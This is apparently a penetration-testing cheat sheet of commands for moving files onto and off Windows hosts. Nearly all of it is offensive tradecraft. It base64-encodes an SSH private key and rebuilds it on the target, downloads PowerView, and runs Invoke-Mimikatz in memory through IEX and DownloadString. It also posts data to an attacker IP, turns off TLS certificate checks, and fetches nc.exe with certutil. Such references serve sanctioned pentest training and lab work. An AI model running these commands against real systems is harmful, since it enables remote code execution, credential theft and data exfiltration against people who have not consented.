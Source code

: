 ## Windows
[Windows Executables for Pentesting](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_x64)

### Windows over Webserver

#### Check SSH key MD5 hash
```Shell
md5sum id_rsa
```

#### Encode SSH key to Base64
```Shell
cat id_rsa |base64 -w 0;echo
```

#### PowerShell decoding of SSH key in Base64
```PowerShell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64 output from previous command>"))
```

#### PowerShell command to confirm successful file transfer
```PowerShell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

#### Download a file with PowerShell
```PowerShell
Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1
```

#### Execute a file in memory using PowerShell
```PowerShell
IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')
```

#### Upload a file with PowerShell
```PowerShell
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

#### Use-BasicParsing bypasses Internet Explorer not having been setup yet
```PowerShell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

#### Bypass an SSL/TLS secure channel error
```PowerShell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

#### Download a file using Certutil
```cmd.exe
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

